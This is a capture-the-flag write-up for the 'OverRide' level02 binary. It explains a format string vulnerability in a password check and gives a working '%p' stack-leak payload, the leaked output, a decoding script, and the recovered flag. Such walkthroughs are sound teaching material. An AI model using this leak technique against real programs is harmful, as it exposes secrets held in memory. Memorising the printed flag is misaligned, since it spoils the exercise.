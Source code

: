 # Level02 Format String Attack

## Overview

In this level, we are dealing with a binary that checks a password. The challenge involves bypassing the password check by exploiting a **format string vulnerability**. Below, we break down the main components of the binary's behavior and the exploit strategy.

## Steps

### input
We identified a call to `fgets` in the main function:
```
<main+453> callq  0x4006f0 <fgets@plt>
```
This call suggests that the program reads input from the user.

### Password Comparison
The program compares two strings using `strncmp`:
```c
if (strncmp(ptr, s2, 0x29uLL)) {
    printf(s);
    puts(" does not have access!");
    exit(1);
}
```
It compares the flag we should get and our input. It seems impossible to get it.

### Format String Exploit
They use our input as `printf(s);` argument without formst string. This allows us to perform a **format string attack**.

```c
v9 = fread(ptr, 1uLL, 0x29uLL, stream);
```
We can check they save the token in a variable, `ptr`.

We read the token directly from the stack by printing the stack memory repeatedly.

## Payload
```
level02@OverRide:~$ python -c 'print"%p "*30' > /tmp/02
level02@OverRide:~$ cat /tmp/02 | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4a0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe698 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

We can find 
```
0x756e505234376848
0x45414a3561733951
0x377a7143574e6758
0x354a35686e475873
0x48336750664b394d
```
and convert them to flag
```python
print(
  "\x75\x6e\x50\x52\x34\x37\x68\x48"[::-1] +
  "\x45\x41\x4a\x35\x61\x73\x39\x51"[::-1] +
  "\x37\x7a\x71\x43\x57\x4e\x67\x58"[::-1] +
  "\x35\x4a\x35\x68\x6e\x47\x58\x73"[::-1] +
  "\x48\x33\x67\x50\x66\x4b\x39\x4d"[::-1]
)
```

## Flag
```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```